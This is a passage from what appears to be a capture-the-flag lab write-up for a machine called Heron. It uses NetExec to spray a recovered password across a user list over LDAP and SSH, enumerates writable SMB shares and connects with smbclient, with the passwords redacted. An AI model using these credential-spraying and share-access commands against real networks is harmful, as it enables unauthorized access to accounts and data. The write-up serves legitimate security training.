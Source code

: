 Nice ! Let's try this pass for every user we have :

```bash
nxc ldap "10.10.173.53" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

LDAP   10.10.173.53    389    MUCDC   [+] heronvl\svc-web-accounting-d:REDACTED
```
```bash
nxc ssh "10.10.173.54" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

SSH                      10.10.173.54    22     10.10.173.54     [+] svc-web-accounting-d@heron.vl:REDACTED  Linux - Shell access!
```
Now let's check what permissions we gained :

```bash
nxc smb "10.10.173.53" -u 'svc-web-accounting-d'  -p 'REDACTED' --shares | grep -I 'WRITE'

SMB                      10.10.173.53    445    MUCDC            accounting$     READ,WRITE
SMB                      10.10.173.53    445    MUCDC            transfer$       READ,WRITE

# connect 
smbclient.py "heron.vl"/"svc-web-accounting-d":'REDACTED'@"10.10.173.53"
```
![alt text](../assets/image_heron/4er.png)

As we can see there is a 'web.config' file
